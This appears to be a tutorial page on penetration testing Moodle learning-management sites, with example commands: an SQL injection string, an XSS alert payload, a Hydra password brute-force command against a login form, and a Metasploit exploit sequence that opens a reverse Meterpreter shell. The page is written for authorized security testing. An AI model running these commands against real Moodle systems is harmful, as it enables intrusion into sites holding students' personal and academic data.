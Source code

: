 # Moodle pentesting


# 👉 Overview

---

### 👀 What ?

> Moodle pentesting refers to the process of testing Moodle, an open-source learning management system, for vulnerabilities that could potentially be exploited by cyber attackers.
> 

### 🧐 Why ?

> Moodle, being widely used in academic and corporate settings, holds a significant amount of sensitive information such as personal details, academic records, and even financial data in some cases. Therefore, ensuring the security of Moodle is of utmost importance. Pentesting can help identify weaknesses and vulnerabilities in the system before they are exploited by malicious hackers.
> 

### ⛏️ How ?

> Moodle pentesting involves using various techniques and tools to identify potential vulnerabilities. This might include scanning for security holes, injecting malicious scripts, attempting to bypass access controls, or exploiting known vulnerabilities. Once vulnerabilities are identified, they should be documented, reported, and remediated as soon as possible.
> 

### ⏳ When ?

> Moodle pentesting should be conducted regularly, ideally as part of a continuous security monitoring strategy. It is particularly important after any system updates or changes, as these can introduce new vulnerabilities.
> 

# ⚙️ Technical Explanations

---

Moodle pentesting is a comprehensive process that involves several methods and techniques to identify vulnerabilities in Moodle, an open-source learning management system. The process starts with scanning using tools such as Nmap, which can help identify open ports and running services that could potentially be exploited.

Input validation vulnerabilities can be identified using SQL injection and Cross-Site Scripting (XSS) attacks. In an SQL injection, a tester tries to enter SQL commands into input fields to manipulate the database, revealing whether the system is vulnerable to such attacks. XSS attacks involve injecting malicious scripts into webpages viewed by other users, testing whether the system sanitizes user inputs properly.

Another important technique in pentesting is brute force attacks, which are used to test the strength of passwords and account lockout policies. In these attacks, the tester tries to gain access by systematically trying all possible combinations until the correct one is found.

Known vulnerabilities can be exploited using tools like Metasploit, a penetration testing software that helps in automating the comparison of a system's vulnerabilities against known exploits.

Once the pentest is completed, the results should be carefully analyzed to identify the system's weaknesses. Any vulnerabilities found must be documented, reported, and fixed promptly to enhance the system's security. It's essential to remember that Moodle pentesting should be conducted regularly and especially after any system updates or changes, as new vulnerabilities can be introduced. This continuous monitoring approach helps maintain a strong security posture for the system.

Here's a simplified, educational example of how SQL injection and Cross-Site Scripting (XSS) might be used in Moodle pentesting.

1. **SQL Injection:** A tester might enter a string into a Moodle search box that looks something like this: `' OR '1'='1`. This is a simple SQL command that will always evaluate to true. If Moodle doesn't properly sanitize inputs, this command could expose sensitive data. In a real-world scenario, more complex SQL commands could be used.

Command:

`' OR '1'='1`

1. **Cross-Site Scripting (XSS):** In an XSS attack, a tester might try to inject a script into a user-input field to see if it gets executed. For instance, if Moodle has a comment section, a tester might enter something like `<script>alert('XSS');</script>`. If Moodle doesn't properly sanitize inputs, when another user views the comment, they'll see a pop-up alert saying "XSS". This shows that malicious scripts can be injected.

Command:

`<script>alert('XSS');</script>`

1. **Brute Force Attack:** A brute force attack could be performed using a tool like Hydra. For example, if there's a login page, a tester could use Hydra to systematically try combinations from a list of common passwords until the correct one is found.

Command:

`hydra -l username -P /usr/share/wordlists/rockyou.txt moodle.site http-post-form "/login:index.php:username=^USER^&password=^PASS^:F=incorrect" -V`

1. **Metasploit:** If a known vulnerability exists in Moodle, a tester might use Metasploit to exploit it. For example, if Moodle is vulnerable to a certain type of remote code execution, a tester could use a Metasploit module specifically designed for that vulnerability.

Command:

`msfconsole`

`use exploit/multi/http/moodle_cmd_exec`

`set RHOSTS target.site`

`set payload php/meterpreter/reverse_tcp`

`set LHOST your.ip`

`run`

Please remember that these examples are for educational purposes and should not be used for malicious intentions. Always get proper authorization before conducting any pentesting activities.
